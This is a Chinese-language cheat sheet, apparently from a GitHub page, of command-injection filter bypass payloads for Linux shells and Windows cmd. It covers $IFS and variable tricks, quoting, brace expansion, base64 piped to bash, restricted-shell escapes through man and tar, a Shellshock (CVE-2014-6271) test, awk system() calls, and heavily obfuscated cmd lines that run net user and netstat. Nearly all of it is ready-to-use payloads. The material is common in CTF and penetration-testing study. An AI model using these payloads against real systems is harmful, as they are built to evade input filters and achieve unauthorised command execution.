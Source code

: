 ### linux命令bypass
```
使用反斜杠
w\ho\am\i

空格绕过
使用<和>
cat<>flag
cat<1.sh 
使用特殊变量:$IFS
cat$IFS\flag
cat${IFS}flag

使用特殊变量${9}
${9}对应空字符串关键字过滤绕过，使用$*和$@，$x(x代表1-9),${x}(x>=10)
ca$*t  flag
ca$@t flag
ca$2t flag
ca${11} flag

花括号还有一种用法：{command,argument}
{cat,flag}

使用双引号和单引号
ca"t" 1.sh
ca't' 1.sh

使用base64
echo 'Y2F0IC4vZmxhZwo=' |base64 -d |bash

使用进制
$(printf '\x00\x00\x00\x00\x00')
使用%0a(\n)，%0d(\r)，%09(\t)等字符也可以bypass

突破终端限制执行脚本内容：
man -P /tmp/runme.sh man

突破终端限制执行脚本中的命令：
tar cvzf a.tar.gz --checkpoint-action=exec=./a.sh --checkpoint=1 a.sh 
tar c a.tar -I ./runme.sh a

CVE-2014-6271
env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id 

awk执行系统命令三种方法：
awk 'BEGIN{system("echo abc")}' 
awk 'BEGIN{print "echo","abc"| "/bin/bash"}' 
awk '{"date"| getline d; print d; close("d")}'
```

### cmd命令bypass
```
逗号------------net user
,;,%coMSPec:~ -0, +27%,; ,;, ;/b, ;;; ,/c, ,,, ;start; , ; ;/b ; , /min ,;net user

括号-----------netstat /ano | findstr LISTENING
,;,%coMSPec:~ -0, +27%,; ,;, ;/b, ;;; ,/c, ,,, ;start; , ; ;/b ; , /min ,;netstat -ano |; ,;( (,;,((findstr LISTENING)),;,) )

转义字符------------netstat /ano | findstr LISTENING
,;,%coMSPec:~ -0, +27%,; ,;, ;^^^^/^^^^b^^^^, ;;; ,^^^^/^c, ,,, ;^^st^^art^^; , ; ;/^^^^b ; , ^^^^/^^^^min ,;net^^^^stat ^^^^ ^^^^-a^^^^no ^^^^ ^|; ,;( ^ (,;^,(^(fi^^^^ndstr LIST^^^^ENING)^),;^,) ^ )

```